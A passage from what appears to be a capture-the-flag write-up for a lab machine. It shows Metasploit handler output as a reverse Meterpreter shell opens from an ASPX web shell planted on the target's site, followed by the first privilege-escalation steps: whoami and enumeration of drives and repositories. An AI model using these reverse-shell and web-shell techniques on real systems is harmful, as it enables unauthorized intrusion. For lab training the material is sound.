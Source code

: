 ```


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.174:9999
[*] Sending stage (201283 bytes) to 10.10.10.203
[*] Meterpreter session 1 opened (10.10.14.174:9999 -> 10.10.10.203:55557) at 2020-10-21 20:33:24 +0200

meterpreter >
```

Access the reverse shell & enjoy the meterpreter http://alpha.worker.htb/assets/noraj.aspx

## Privilege Escalation of Machine : from iis apppool\defaultapppool to robisl

```
meterpreter > shell
Process 8920 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>whoami
iis apppool\defaultapppool
```

Let's [list the available drives](https://superuser.com/questions/139899/see-available-drives-from-windows-cli):

```
c:\windows\system32\inetsrv>wmic logicaldisk get volumename,name,caption
Caption  Name  VolumeName
C:       C:
W:       W:    Work

c:\windows\system32\inetsrv>fsutil fsinfo drives

Drives: C:\ W:\
```

We have an unusual drive with label W:

```
c:\windows\system32\inetsrv>ls w:\
AzureDevOpsData
System Volume Information
agents
sites
svnrepos
```
